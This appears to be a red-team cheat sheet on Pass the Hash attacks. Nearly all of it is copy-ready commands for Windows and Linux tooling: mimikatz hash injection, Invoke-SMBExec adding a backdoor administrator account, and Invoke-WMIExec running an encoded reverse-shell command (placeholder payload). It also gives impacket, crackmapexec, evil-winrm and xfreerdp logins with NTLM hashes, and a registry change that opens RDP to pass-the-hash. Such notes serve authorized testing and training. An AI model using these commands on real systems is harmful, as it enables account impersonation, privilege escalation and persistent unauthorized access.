 ```yaml
---
description: >-
  Lateral movement is process in Penetration Testing or Red Teaming when
  attacker moves through system, impersonate users and escalation privileges
  vertically or horizontally.
---
```


# Post-Exploitation

## Pass The Hash

A **Pass the Hash (PTH)** attack involves an attacker using a password hash in place of the actual password for authentication. This method allows the attacker to bypass the need to decrypt the hash to retrieve the password. **PTH** attacks take advantage of the fact that the authentication protocol accepts the hash directly, as it remains unchanged for all sessions until the password is altered.

***

### Windows PTH

#### Mimikatz

```powershell
mimikatz.exe privilege::debug "sekurlsa::pth /user:carni7 /rc4:64F12CDDAA88057E06A81B54E73B949B /domain:inlanefreight.htb /run:cmd.exe" exit
```

Explanation:

* <mark style="color:blue;">**`privilege::debug`**</mark> - equivalent of admin rights
* <mark style="color:blue;">**`/user:carni7`**</mark> - user we want to impersonate
* <mark style="color:blue;">**`/rc4`**</mark> or <mark style="color:blue;">**`/NTLM`**</mark> - user's password hash. rc4 is algorithm
* <mark style="color:blue;">**`/domain`**</mark> - The domain to which the user being impersonated belongs. For a local user account, you can use the computer name, localhost, or simply a dot (.)
* <mark style="color:blue;">**`sekurlsa::pth`**</mark> - mimikatz popular module, which is used for extracting credentials from LSASS.
* <mark style="color:blue;">**`/run:cmd.exe`**</mark> - Instructions to mimikatz to run cmd after injecting hash

#### Invoke-TheHash

Besides mimikatz we could use [**Invoke-TheHash**](https://github.com/Kevin-Robertson/Invoke-TheHash) for **PTH** on Windows. This tool uses **PowerShell** functions for performing **Pass the Hash** attacks with **WMI** and **SMB**. Authentication is performed by passing an **NTLM** hash into the NTLMv2 authentication protocol.

```powershell
Import-Module .\Invoke-TheHash.psd1
```

* **SMB**

```powershell
Invoke-SMBExec -Target 13.13.13.13 -Domain somedomain.sus -Username carni7 -Hash 12379N1D2YV31U20931C031 -Command "net user mark Password123 /add && net localgroup administrators mark /add" -Verbose
```

* **WMI**

```powershell
Invoke-WMIExec -Target DC01 -Domain somedomain.sus -Username carni7 -Hash 12379N1D2YV31U20931C031 -Command "powershell -e JUSTLETSIMAGINETHISISBASE64ENCODEDPOWERSHELLREVERSESHELLCODE=="
```

***

### Linux PTH&#x20;

#### Impacket

Impacket has a lot of useful tools, but for this situtation we need only <mark style="color:blue;">**`PsExec`**</mark>. Besides that we could use also [**wmiexec**](https://github.com/SecureAuthCorp/impacket/blob/master/examples/wmiexec.py), [**atexec**](https://github.com/SecureAuthCorp/impacket/blob/master/examples/atexec.py), [**smbexec**](https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbexec.py)**.**&#x20;

```bash
impacket-psexec administrator@13.13.13.13 -hashes :12379N1D2YV31U20931C031
```

#### CrackMapExec

```bash
crackmapexec smb 13.13.13.13 -u Administrator -d . -H 12379N1D2YV31U20931C031 -x whoami
```

#### Evil-winrm&#x20;

```bash
evil-winrm -i 13.13.13.13 -u Administrator -H 12379N1D2YV31U20931C031
```

#### RDP

By default, Windows has disabled <mark style="color:green;">`Restricted Admin Mode`</mark>, and we need to fix that by adding new registry key to <mark style="color:green;">`DisableRestrictedAdmin`</mark>

```powershell
reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
```

And then to use <mark style="color:blue;">**xfreerdp**</mark> for Pass The Hash

```powershell
xfreerdp /v:13.13.13.13 /u:carni7 /pth:12379N1D2YV31U20931C031
```
